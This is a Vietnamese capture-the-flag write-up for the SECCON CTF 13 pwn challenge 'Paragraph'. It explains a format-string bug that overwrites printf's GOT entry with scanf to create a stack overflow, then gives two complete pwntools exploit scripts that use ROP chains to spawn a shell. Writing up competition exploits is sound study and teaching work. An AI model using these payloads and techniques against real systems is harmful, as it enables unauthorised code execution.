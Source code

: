 ```yaml
--- 
title: SECCON CTF 13
date: 2025-03-06 
description : 'SECCON13'
tags: ['pwn','fsb']
authors: ['kuvee']
---
```


mặc dù giải đã end khá lâu tuy nhiên dạo này bận ôn thi nên mình mới có time để ghi lại 


## Paragraph 

checksec : 

![image](https://hackmd.io/_uploads/Sy-wxNw7ye.png)

reverse :

ta được nhập 23 kí tự và có 1 bug fsb ở đây 

![image](https://hackmd.io/_uploads/rJS6yEP71g.png)

ta sẽ focus chính vào cách exploit bằng bug format string ở bài này , tuy nhiên nó lại chỉ cho ta nhập 23 kí tự.

- suy nghĩ đầu tiên có lẽ là cần overwrite GOT vì bài này RELRO 1 phần , vậy ta cần suy nghĩ ta sẽ phải overwrite thằng got nào và giá trị ta cần overwrite sẽ là gì?

- hmmm , vì bài này chỉ được phép xài fsb đúng 1 lần nên sẽ khá khó để leak libc xong rồi overwrite GOT bằng system ( thêm 1 điều nữa là đầu vào bị hạn chế nên cách này sẽ không thể) , 

ta sẽ thử quan sát : 

![image](https://hackmd.io/_uploads/SJjPWNDmJe.png)

địa chỉ libc của scanf và printf ở trường hợp này chỉ khác nhau 2 byte (thực tế sẽ là 2 byte rưỡi  = 12 bit) , vậy nếu ta ghi printf() thành scanf() thì sao ? 

![image](https://hackmd.io/_uploads/ByC3b4w7ye.png)


- tiếp theo sau đó nó sẽ dùng printf() với fmt là %s , vậy nếu nó là scanf() thì ta có 1 lỗi BOF ở đây luôn -> end

- còn 1 điều quan trọng nữa là bài này có lẽ cần phải bruteforce vì ta chỉ được input 23 kí tự , hoặc ta cũng có thể ghi thành PLT scanf() và cũng không cần bruteforce vì số byte của PLT lúc này khá ít (4198560) và nó sẽ không bị lỗi (cần sự trợ giúp của pwntools)


- vậy cách đầu tiên đơn giản là sẽ brute_force với tỉ lệ 1/16 , sau đó ta có được libc luôn và get_shell

script 

```python
from pwn import *

context.log_level = 'debug'

printf_got = 0x0404028
scanf_got = 0x0404030
scanf_plt = 0x4010A0
pop_rdi = 0x0000000000401283
ret = 0x000000000040101a

libc = ELF('./libc.so.6')
while True:
    e = ELF('./chall_patched')
    p = process(e.path)

    pay =b''
    pay += b"%32256c%8$hn%1$p"
    pay += b'A' * (0x10 - len(pay))
    pay += p64(e.got['printf'])[:-1]

    p.sendlineafter(b'"What is your name?", the black cat asked.\n', pay)
    try:

        p.recvn(32256)
        leak = int(p.recv(14).decode(), 16)
        lb = leak - 0x1b28c0
        system = lb + libc.sym['system']
        binsh = lb + list(libc.search(b'/bin/sh'))[0]
        log.critical(f"leak: {hex(leak)}")
        log.critical(f"lb: {hex(lb)}")
        log.critical(f"system: {hex(system)}")
        log.critical(f"binsh: {hex(binsh)}")
        p.recv()
        pay = b' answered, a bit confused.\n\"Welcome to SECCON,\" the cat greeted '
        pay += b'A' * 0x28
        pay += p64(ret)
        pay += p64(pop_rdi)
        pay += p64(binsh)
        pay += p64(system)
        pay += b' warmly.sdf\n'
        p.sendline(pay)

        p.sendline(b'id')
        tmp = p.recv()
        print(tmp)
        break
    except Exception as e:
        print(e)
        p.close()
        continue

p.interactive()
```


cách thứ 2 là ta sẽ thay đổi ```got``` của printf thành ```scanf_plt``` , ta sẽ dùng ```pwntools``` để làm việc này và không cần brute_foce , sau đó ta có thể dùng ROP để leak libc ....  , ở đây mình sẽ dùng ```scanf``` để ghi ```/bin/sh``` vô ```bss``` và cùng lúc ```leak_libc``` , cuối cùng là setup cho one_gadget 

script 

```python
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./chall',checksec=False)
io = process()
libc = ELF('./libc.so.6')
#gdb.attach(io,gdbscript='''

 #       b*0x00000000004011fa
  #      b*0x000000000040121D
    #       ''')

one_gadget = [0x583dc,0x583e3,0xef4ce,0xef52b]
log.info(f"one_gadget {hex(one_gadget[3])}")

writes = {
    exe.got.printf: p64(exe.sym.__isoc99_scanf)
}

payload = fmtstr_payload(6, writes, write_size='int')  # generate most
payload = b'%4198560d%8$llna(@@\x00\x00\x00\x00'  # <-- same as pwntools but removed some null bytes
print(len(payload))
input()
io.sendlineafter(b'"What is your name?", the black cat asked.\n', payload)

p = b"A" * 40
p += p64(0x401281)  # 0x401281: pop rsi ; pop r15 ; ret ;
p += p64(0x404150)  # .bss
p += p64(0)
p += p64(0x401283)  # 0x401283: pop rdi ; ret ;
p += p64(0x403078)  # %s warmly.\n
p += p64(0x401060)  # scanf
p += p64(0x401283)  # 0x401283: pop rdi ; ret ;
p += p64(0x404050)  # 0x404050 <stdout@@GLIBC_2.2.5>:   0x00007d0f7ba045c0
p += p64(0x401030)  # puts

p += p64(0x401196) # main



io.sendline(
    b' answered, a bit confused.\n"Welcome to SECCON," the cat greeted '
    + p
    + b" warmly.\n\n"
)
io.sendline(b"/bin/sh #" + b" warmly.\n\n")

res = io.recvline()[-7:].strip()
print(res)
leakedlibc = u64(res.ljust(8, b"\x00"))
log.info(f"leaked libc: {hex(leakedlibc)}")

libc.address = leakedlibc - libc.sym["_IO_2_1_stdout_"]
log.info(f"libc base: {hex(libc.address)}")

p = b"A" * 40

"""
0x583e3 posix_spawn(rsp+0xc, "/bin/sh", 0, rbx, rsp+0x50, environ)
constraints:
  address rsp+0x68 is writable
  rsp & 0xf == 0
  rcx == NULL || {rcx, rax, rip+0x17302e, r12, ...} is a valid argv
  rbx == NULL || (u16)[rbx] == NULL

"""
p += p64(libc.address + 0x10E243)  # pop rcx ; ret
p += p64(0)
p += p64(libc.address + 0x5ACE9)  # pop rbx ; ret
p += p64(0)
p += p64(libc.address + 0x583E3) # posix_spawn

io.recvuntil(b"asked.\n")
input("input")
io.sendline(
    b' answered, a bit confused.\n"Welcome to SECCON," the cat greeted '
    + p
    + b" warmly.\n\n"
)


io.interactive()
```
